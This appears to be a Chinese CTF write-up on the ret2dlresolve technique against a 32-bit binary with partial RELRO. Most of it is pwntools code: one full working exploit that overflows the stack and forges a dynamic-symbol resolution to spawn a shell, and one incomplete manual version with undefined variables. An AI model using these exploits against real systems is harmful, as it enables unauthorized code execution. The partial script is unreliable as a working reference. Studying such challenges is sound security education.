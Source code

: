 开启了partial-relro后，像是`.dynamic section`就是不可更改的了，我们

```python
from pwn import*
context.log_level = 'debug'
context.binary = elf = ELF("./bof")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])

p = process('./bof')
base_stage = dlresolve.data_addr
p3_ret = 0x08048649 #pop esi ; pop edi ; pop ebp ; ret
pebp_ret = 0x0804864b #pop ebp ; ret
plt_0 = 0x8048370 # objdump -d -j .plt bof

payload1 = 'a'*112+p32(elf.plt['read'])+p32(p3_ret)+p32(0)+p32(base_stage)+p32(0x200)
payload1 += p32(plt_0) + p32(dlresolve.reloc_index) +  p32(b'dead') + p32(dlresolve.real_args[0])
p.sendafter('!',payload1)
p.send(dlresolve.payload)

p.interactive()
```

使用`pwntools`中的`Ret2dlresolvePayload`模块可以直接解决，主要是因为手动构造的时候存在着bug，不过可以给出手动构造的代码(只构造到了伪造`.dynsym`）

```python
from pwn import *
elf = ELF('./pwn')
context.log_level = 'debug'
 
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']
 
ppp_ret = 0x08048649 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804864b
leave_ret = 0x08048465 # ROPgadget --binary bof --only "leave|ret"
 
stack_size = 0x800
bss_addr = 0x0804a028 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size
 
r = process('./pwn')
 
r.recvuntil('Welcome to CTFshowPWN!\n')
# 把payload2写入bss段，并把栈迁移到bss段
payload = b"a"*offset + p32(read_plt) + p32(ppp_ret) + p32(0) + p32(base_stage) + p32(100)
payload += p32(pop_ebp_ret) + p32(base_stage) + p32(leave_ret)
 
cmd = "/bin/sh"
plt_0 = 0x8048370 # objdump -d -j .plt bof
# index_offset = 0x20# write's index
rel_plt = 0x08048324 # objdump -s -j .rel.plt bof

#  修改index_offset的代码
# fake_write_addr = base_stage + 28
# fake_arg = fake_write_addr - rel_plt    # arg变量是指.rel.plt结构体距离.rel.plt的偏移
# r_offset = elf.got['write']
# r_info = 0x607 # 对应wirte，由 readelf -r bof 查询
# fake_write = flat(p32(r_offset), p32(r_info)) # 伪造的rel_write

dynsym_base = 0x080481cc  # readelf -S bof
fake_write_addr = base_stage + 28
fake_write_str_addr = base_stage + 36 + align + 0x10
fake_name = fake_write_str_addr - strtab
```